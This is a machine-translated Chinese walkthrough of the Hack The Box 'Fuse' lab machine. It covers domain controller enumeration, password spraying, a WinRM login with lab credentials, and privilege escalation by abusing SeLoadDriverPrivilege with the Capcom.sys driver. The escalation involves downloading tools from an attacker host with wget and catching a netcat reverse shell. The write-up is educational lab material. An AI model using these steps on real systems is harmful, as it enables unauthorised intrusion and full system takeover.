# HTB 导火线[报道]

> 原文：<https://infosecwriteups.com/htb-fuse-writeup-2c181d837b78?source=collection_archive---------0----------------------->

## 域控制器侦测|密码喷洒|暴力攻击|**SeLoadDriverPrivilege Abuse**



# 摘要

这台机器快把我逼疯了！如果没有已经在这台机器上扎根的人的指导，要打开这个盒子是非常困难的。

有了这台机器，一步一个脚印在这里是有益的。运行 nmap 扫描或继续向下滚动，你会知道为什么:nmap 结果表明它是一个域控制器。最初，从手动站点检查开始，并捕获所有公开的数据。接下来，我将收集的信息用于所有开放端口服务。经过长时间的侦察/枚举、密码喷射攻击和暴力破解，我终于找到了一个可以访问 shell 的帐户。

对于 Root 一旦发现漏洞，google 会搜索其漏洞并将其作为利用该机器的指南。

***注意:*** *有些工具可能无法提供想要的结果。因此，使用另一个类似的工具来验证它，并注意输出。*

**操作系统和架构:** Windows Server 2016 标准版 14393 (Windows Server 2016 标准版 6.3)

**使用的工具&命令:**`nmap`|`cewl`|`msfconsole`|`smbclient`|`rpcclient`|`smbpasswd`|`wget`|`nc`|`evil-winrm.rb`

**CVE(美):**不适用

**利用:** [滥用 SeLoadDriverPrivilege](https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/)

# 侦察和计数

**Nmap 输出**

*****TCP 端口* * ***
`PORT STATE SERVICE VERSION
53/tcp open domain?
| fingerprint-strings:
| DNSVersionBindReqTCP:
| version
|_ bind
80/tcp open http Microsoft IIS httpd 10.0
| http-methods:
|_ Potentially risky methods: TRACE`
`|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn’t have a title (text/html).
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2020–08–28 18:08:41Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
445/tcp open microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: FABRICORP)
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open mc-nmf .NET Message Framing
49666/tcp open msrpc Microsoft Windows RPC`
`49667/tcp open msrpc Microsoft Windows RPC
49675/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49676/tcp open msrpc Microsoft Windows RPC
49679/tcp open msrpc Microsoft Windows RPC
49695/tcp open msrpc Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at [https://nmap.org/cgi-bin/submit.cgi?new-service](https://nmap.org/cgi-bin/submit.cgi?new-service) :
SF-Port53-TCP:V=7.80%I=7%D=8/28%Time=5F494370%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,”\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2016|2012|2008|10 (91%)
OS CPE: cpe:/o:microsoft:windows_server_2016 cpe:/o:microsoft:windows_server_2012 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_10:1607`
`Aggressive OS guesses: Microsoft Windows Server 2016 (91%), Microsoft Windows Server 2012 (85%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (85%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows 10 1607 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: FUSE; OS: Windows; CPE: cpe:/o:microsoft:windows`

`Host script results:
|_clock-skew: mean: 2h40m14s, deviation: 4h02m31s, median: 20m13s
| smb-os-discovery:
| OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
| Computer name: Fuse
| NetBIOS computer name: FUSE\x00
| Domain name: fabricorp.local`
`| Forest name: fabricorp.local
| FQDN: Fuse.fabricorp.local
|_ System time: 2020–08–28T11:11:04–07:00
| smb-security-mode:
| account_used: <blank>
| authentication_level: user
| challenge_response: supported
|_ message_signing: required
| smb2-security-mode:
| 2.02:
|_ Message signing enabled and required
| smb2-time:
| date: 2020–08–28T18:11:02
|_ start_date: 2020–08–28T18:04:52`

*****UDP 端口*****
`PORT STATE SERVICE
53/udp open domain
123/udp open ntp
389/udp open ldap`

****************端口 80 http 微软 IIS httpd 10.0 * * * * * * * * * * * * * * * * ***

浏览网站 http://10.10.10.193 时，请注意底部的网站响应，内容如下:

使用 **/etc/hosts** 文件设置一个本地 DNS，将该子域映射到 10.10.10.193



**主页面**



**潜在用户**

创建一个 user.txt 并保存找到的用户名: **pmerton** 和**t level**。

使用`cewl`，我创建了网站主页的单词表，它有可能被用来找回密码。

> `cewl -w wordlists.txt -d 10 — with-numbers [http://fuse.fabricorp.local/papercut/logs/html/index.htm](http://fuse.fabricorp.local/papercut/logs/html/index.htm)`

*** * * * * * * * * * * * * * * * * *端口 445/TCP Windows Server 2016 Standard 14393 Microsoft-ds 或域控制器*************************

当捕获的用户名和单词列表用于 smb 登录时，我找到了登录 SMB 的正确用户名和密码。

> 辅助(扫描仪/SMB/SMB _ 登录)



登录 smbclient 后，它会提示我先更改密码。



密码更改后，我可以看到以下共享名。然而，后来我什么也做不了，所以我把注意力转向了其他开放港口服务。



# 据点

************************端口 135 RPC * * * * * * * * * * * * * * * * * * * * * * * * * ***

使用 smb 登录凭证: **tlavel:Fabricorp01** ，错误消息指示密码更改。



但是，当使用更新的 smb 凭据时，我获得了访问权限。



以下所有用户名都已添加到我的用户列表中



最后，我找到了可以帮助我们得到外壳的密码。



# 反向外壳

*** * * * * * * * * * * *端口 5985 http 微软 HTTP API httpd 2.0(SSDP/UPnP)* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * ***

使用`msfconsole > auxiliary/scanner/winrm/winrm_login`，我强制 winrm 的凭证向 Winrm 服务认证。



为了验证上述结果，我使用了另一个名为 **crackmapexec** 的工具，该工具也尝试对 Winrm 服务进行身份验证。

注意下面:只有用户 **svc-print** 有*“访问被拒绝”*，而其余用户显示*“指定的凭证被服务器拒绝”*



要登录到 winrm，请使用以下命令:

> `sudo ruby evil-winrm.rb -u svc-print -p ‘$fab@s3Rv1ce$1’ -i 10.10.10.193`



# 横向运动

这里我们可以看到 **SetLoadDriverPrivilege** 被**启用。**



# 权限提升

有一个[漏洞](https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/)可用于滥用 **SeLoadDriverPrivilege** 进行权限升级。

**第一步。**创建一个 netcat.bat 文件



**第二步:**下载并上传所有需要的文件到受害机器。这包括:

*   [capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys)
*   [ExploitCapcom.cpp](https://github.com/tandasat/ExploitCapcom/blob/master/ExploitCapcom/ExploitCapcom/ExploitCapcom.cpp)
*   [peoploaddriver . CPP](https://github.com/TarlogicSecurity/EoPLoadDriver/blob/master/eoploaddriver.cpp)
*   nc.exe
*   netcat.bat

**注**:即*。cpp* 已经转换为*。从这个[站点](https://github.com/mach1el/htb-scripts/tree/master/exploit-fuse)获取的 exe* 。

使用以下命令，上传所有需要的文件:

`wget [http://10.10.14.2/<](http://10.10.14.2/netcat.bat)filename> -o <filename>`



运行 EOPLOADDRIVER.exe 程序后，我们可以将下面的例子用于**步骤 4。**



**步骤 3:** 启动主机上的监听端口。

**第 4 步:**最后运行以下命令来获取 shell

> `.\EOPLOADDRIVER.exe System\CurrentControlSet\MyService C:\check\Capcom.sys`
> 
> `.\ExploitCapcom.exe`



**扎根！！！**



**成功了！！！**



# 补救

*   通过为不同的帐户设置唯一的密码来最小化攻击面。从而消除了密码喷涂攻击。
*   避免将任何敏感数据暴露在公共托管网站上
*   禁用非特权用户的 SeLoadDriverPrivilege，因为它可能会在内核空间执行代码并获得 root 权限。
*   禁用或创建这些端口的安全策略

# 参考

1.  [https://www . tarlogic . com/en/blog/abiling-seloaddriverprivilege-for-privilege-escalation/](https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/)
2.  [https://bitvijays . github . io/LFF-IPS-P3-exploitation . html #活动目录-侦察](https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html#active-directory-reconnaissance)
3.  [https://www . samba . org/samba/docs/current/man-html/SMB passwd . 8 . html](https://www.samba.org/samba/docs/current/man-html/smbpasswd.8.html)
4.  [https://www . calyptix . com/how-to/egress-filtering-101-what-it-is-and-how-to-do-it/](https://www.calyptix.com/how-to/egress-filtering-101-what-it-is-and-how-to-do-it/)
5.  [https://github . com/TarlogicSecurity/peoploaddriver/blob/master/peoploaddriver . CPP](https://github.com/TarlogicSecurity/EoPLoadDriver/blob/master/eoploaddriver.cpp)
6.  [https://github . com/mach 1el/htb-scripts/tree/master/exploit-fuse](https://github.com/mach1el/htb-scripts/tree/master/exploit-fuse)
7.  [https://github . com/tanda sat/exploit capcom/blob/master/exploit capcom/exploit capcom/exploit capcom . CPP](https://github.com/tandasat/ExploitCapcom/blob/master/ExploitCapcom/ExploitCapcom/ExploitCapcom.cpp)
8.  [https://github . com/fuzzy security/Capcom-Rootkit/blob/master/Driver/Capcom . sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys)